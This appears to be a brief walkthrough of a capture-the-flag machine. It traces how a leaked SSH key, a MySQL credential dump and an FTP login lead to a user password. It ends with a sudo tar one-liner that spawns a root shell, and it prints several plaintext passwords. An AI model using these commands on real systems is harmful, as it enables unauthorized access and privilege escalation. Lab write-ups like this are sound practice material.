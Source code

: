 Nmap scan shows weird web directory /crxsdcdf.txt which has id_rsa for shrek

login as shrek with id_rsa, use linpeas.sh which shows mysql database password as "password"

mysql -u root -p 
show databases;
use api;
show tables;
SELECT * from users;

----+------+------------------+
| id | user | pass             |
+----+------+------------------+
|  4 | ftp  | EkRYje58bhFpg2uW |
+----+------+------------------+
login ftp with above creds, get message.txt which has donkey password as "J5rURvCa8DyTg3vR"

In user donkey:
	sudo -l shows tar

	sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh to get root shell